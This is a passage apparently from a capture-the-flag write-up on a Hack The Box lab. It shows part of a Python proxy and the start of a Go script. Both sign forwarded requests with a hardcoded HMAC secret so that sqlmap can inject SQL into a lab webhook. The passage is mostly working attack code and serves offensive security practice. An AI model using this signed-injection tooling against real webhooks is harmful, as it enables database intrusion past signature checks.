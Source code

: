 ```
        for k, v in response.headers.items():
            if k.lower() != 'content-encoding':
                self.send_header(k, v)
        self.end_headers()
        self.wfile.write(response.content)
        # Debug log
        print(f"[+] Forwarded to: {full_url}")
        print(f"    Signature: sha256={signature}")
        print(f"    Payload: {body.decode(errors='ignore')[:200]}")
if __name__ == "__main__":
    print("
GoPhish SQLmap Proxy running on http://127.0.0.1:8000")
    server = HTTPServer(('0.0.0.0', 8000), GoPhishProxy)
    server.serve_forever()
```



Or use the go script here
```
package main

import (
    "bytes"
    "crypto/hmac"
    "crypto/sha256"
    "encoding/hex"
    "encoding/json"
    "fmt"
    "io"
    "log"
    "net/http"
)

const (
    secret    = "3CWVGMndgMvdVAzOjqBiTicmv7gxc6IS"
    webhookURL = "http://28efa8f7df.whiterabbit.htb/webhook/d96af3a4-21bd-4bcb-bd34-37bfc67dfd1d"
)

type Payload struct {
    CampaignID int    `json:"campaign_id"`
    Email      string `json:"email"`
    Message    string `json:"message"`
}

func calculateHMAC(payload Payload) string {
    jsonBytes, _ := json.Marshal(payload)
    h := hmac.New(sha256.New, []byte(secret))
    h.Write(jsonBytes)
    return hex.EncodeToString(h.Sum(nil))
}

func logRequest(r *http.Request) {
    clientIP := r.RemoteAddr
    method := r.Method
    uri := r.URL.RequestURI()
    protocol := r.Proto
    log.Printf("%s - - \"%s %s %s\" 200 -", clientIP, method, uri, protocol)
}

func handler(w http.ResponseWriter, r *http.Request) {
    logRequest(r)

    email := r.URL.Query().Get("q")
```